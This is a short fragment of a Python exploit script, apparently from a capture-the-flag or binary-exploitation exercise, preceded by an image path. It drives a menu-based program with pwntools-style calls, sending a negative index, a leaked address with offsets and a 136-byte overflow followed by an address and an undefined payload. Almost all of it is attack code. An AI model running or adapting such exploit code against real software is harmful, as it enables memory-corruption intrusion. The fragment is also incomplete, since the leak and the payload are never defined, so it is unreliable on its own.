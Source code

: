 ```python
p.sendline("5")
p.recvuntil(">")
p.sendline("-1")
p.recvuntil(">")
p.sendline("1")
p.recvuntil(":")
p.sendline(p64(obj_leak+152))
p.recvuntil(">")

p.sendline("2")
p.recvuntil(":")
p.sendline("A"*136+p64(obj_leak+168)+payload)
p.recvuntil(">")
p.sendline("4")
p.recvuntil(">")

p.sendline("6")
p.recvuntil(">")
p.sendline("1")
print(p.recv())
```